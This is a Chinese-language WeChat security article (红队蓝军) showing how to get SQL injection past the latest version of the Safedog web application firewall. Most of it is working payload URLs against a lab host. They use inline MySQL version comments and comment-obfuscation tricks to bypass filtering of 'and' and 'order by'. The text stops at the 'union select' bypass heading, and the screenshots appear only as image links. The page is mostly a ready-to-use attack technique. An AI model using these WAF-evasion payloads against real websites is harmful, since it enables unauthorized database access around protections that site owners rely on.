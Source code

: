 #  sql注入bypass最新版某狗

原创 yicunyiye  [ 红队蓝军 ](javascript:void\(0\);)

**红队蓝军** ![]()

微信号 Xx_Security

功能介绍 一群热爱网络安全的人，知其黑，守其白。不限于红蓝对抗，web，内网，二进制。

____

___发表于_

收录于合集

#waf绕过 1 个

#sql注入 2 个

#web 23 个

## 安全狗最新版本

![](https://gitee.com/fuli009/images/raw/master/public/20230222174147.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230222174206.png)  

  

## and绕过

http://192.168.111.16/index.php?id=1%20and%20/ _!500011_ /=/ _!500011_ /

http://192.168.111.16/index.php?id=1%20and%20/ _!500011_ /=/ _!500012_ /

http://192.168.111.16/index.php?id=if((1=2),1,1)

http://192.168.111.16/index.php?id=1%20and/ _%!%22/_ /1=1%20--%20+

## order by 绕过

/*%!*干扰

http://192.168.111.16/index.php?id=1/ _%2a%%2f_ /order/ _%2f%2f_ /by/ _%2f%2f_
/2

![](https://gitee.com/fuli009/images/raw/master/public/20230222174208.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230222174210.png)  
  

## union select 绕过
